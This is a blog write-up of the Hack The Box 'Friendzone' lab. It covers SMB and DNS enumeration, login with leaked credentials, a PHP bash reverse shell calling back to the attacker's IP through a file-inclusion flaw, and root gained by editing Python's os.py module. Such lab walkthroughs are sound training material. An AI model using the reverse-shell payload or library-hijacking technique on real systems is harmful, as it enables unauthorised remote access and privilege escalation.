 ```yaml
---
layout: post
title:      "Hack The Box - Friendzone"
date:       2019-07-12
author:     "D4mianwayne"
tags:    ["nmap, ctf, HacktheBox, htb"]
img:  "/img/htb.png"
categories: ["HackTheBox"]
layout: "simple"

---
```


Today, we are going to pwn Friendzone from Hack The Box.

<!-- more -->

# Methodology

* Nmap scan of the machine 
* Checking SMB service and HTTP
* Using `dig` to get subdomians
* Uploading PHP reverse shell 
* Callback the reverse shell by exploiting LFI(Local File Inclusion)
* Getting user flag and SSH credentials
* Using cronjob to get root flag

# Nmap

Starting off with the nmap, `nmap -sV -sC -A 10.10.10.123` shows so many open ports but we have to start somewhere.
It includes:-

* 21 - FTP
* 22 - SSH
* 53 - DNS
* 80 - HTTP
* 139 & 445 - SMB
* 443 - SSL/HTTP

![](/img/friendzone/nmap.png)

# SMB and HTTP Enumeration

Using smbmap reveals we have access to `general` for read only and `Development` for read/write access.
So, we connect to `SMB` by using `smbclient //10.10.10.123/general/ -u root`  reveals we see `creds.txt` so we get it on our machine.

Now, `Developement` seems empty so I headover to HTTP port, it was basic html page without only one useful information **subdomain**. We noticed it has a subdomian named `friendzone.red`.
Running `gobuster` reveals nothing useful, so I moved on to DNS recon.


# DNS Enumeration and Login

Using `dig axrf friendzone.red @10.10.10.123` reveals a `administartor1.friendzone.red` so heading over to that shows a login page, loggin with the previous obtained credentials `admin:WORKWORKHhallelujah@#` , tell us to redirect to `dashboard.php`.

![](/img/friendzone/dig.png)

![](/img/friendzone/admin.png)

![](/img/friendzone/creds.png)

# Exploiting LFI vulnerability and callback Reverse Shell

This page seems told us to access url `default is image_id=a.jpg&pagename=timestamp`, seems LFI isn't it?

From previous SMB enumeration we knew that `Development` directory has read/write access so using php reverse shell wecan get access to friendzone machine.

Using folllowing code as `phpinfo.php`:-

```

<?php
exec(“/bin/bash -c ‘bash -i >& /dev/tcp/10.10.14.156/1234 0>&1’”);
phpinfo();
?>

```

we uploaded it to `Development ` directory by

`curl --upload-file phpinfo.php -u 'root' smb://10.10.10.123/Development/`, we uploaded our shell.

![](/img/friendzone/rev.png)

#### Callback

From previously found LFI, we access the our phpinfo file by 
`https://administrator1.friendzone.red/dashboard.php?image_id=b.jpg&pagename=/etc/Development/phpinfo`

![](/img/friendzone/lfi.png)

Not `a.jpg` because it was default so no need to, so back to our listener we get a shell.

![](/img/friendzone/revs.png)

#### User Flag

Once your listener get connected to our uploaded reverse shell you can get user flag.

![](/img/friendzone/user.png)


# Getting SSH Credentials

Checking directory and file reveals a interseting file named `mysql_data.conf` has following credentials:-

***

>for development process this is the mysql creds for user friend

>db_user=friend

db_pass=Agpyu12!0.213$

>db_name=FZ

***

![](/img/friendzone/sshcreds.png)

# SSH Login and root flag

Well, we login to ssh using previous credentials.

![](/img/friendzone/ssh.png)


### Analyzing Running Processes

There was a ELF file named `pspy64`, executing it shows running jobs in which we can very interesting process whuch was a python file.

![](/img/friendzone/cronjob.png)

Head over `/opt/server_admin/reporter.py` shows a nothing more than bunch of commented out line of python code.

```

#!/usr/bin/python

import os

to_address = “admin1@friendzone.com”
from_address = “
admin2@friendzone.com”

print “[+] Trying to send email to %s”%to_address

#command = ‘’’ mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass “PAPAP”’’’

#os.system(command)

# I need to edit the script later
# Sam ~ python developer

```

We can see a line importing python os module, since we don't have modify permissions for reporter.py we head over `/usr/bin/python2.7`  we can edit os.py i.e python's `os` module which has a function which allows us to execute any command by passing them as parameter. 

For example:-

```

import os
os.sytem('whoami') #friend

```

So we add a single line of code at the very end of `os.py` 

```

system('cp /root/root.txt /tmp/root1.txt') # calling system functon and copying flag

```

Hence, waiting for few minutes gives `root1.txt`.

![](/img/friendzone/root.jpg)

**Done!!**

<img src="https://www.hackthebox.eu/badge/image/129534" alt="Hack The Box">




